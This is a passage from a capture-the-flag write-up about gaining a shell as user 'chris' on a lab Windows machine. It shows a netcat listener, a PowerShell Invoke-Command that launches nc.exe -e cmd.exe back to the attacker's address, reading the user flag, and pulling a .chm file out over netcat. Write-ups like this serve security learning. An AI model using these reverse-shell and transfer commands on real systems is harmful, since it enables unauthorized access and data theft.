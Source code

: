 It works! We were able to run commands as `chris`! Now lets try to establish another reverse shell as `chris`.

# user.txt

Starting our listener:
{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

And running `nc.exe` to connect back to us:
{% highlight raw %}
PS C:\inetpub\wwwroot\blog> Invoke-Command -Session $TestPCSession -ScriptBlock {cmd.exe /c C:\tmp\nc.exe -e cmd.exe 10.10.XX 1337}
{% endhighlight %}

{% highlight raw %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.151] 49687
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris
C:\Users\Chris\Documents>type C:\Users\Chris\Desktop\user.txt
type C:\Users\Chris\Desktop\user.txt
21f4XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

Looking around, I found a file in `chris`'s download folder:

{% highlight raw %}
C:\Users\Chris\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)  17,988,661,248 bytes free
{% endhighlight %}

Using `nc.exe`, I downloaded the `instructions.chm` file and opened it in a Windows VM.

Starting our listener:
{% highlight bash %}
$ nc -lvnp 1337 > instructions.chm
listening on [any] 1337 ...
{% endhighlight %}
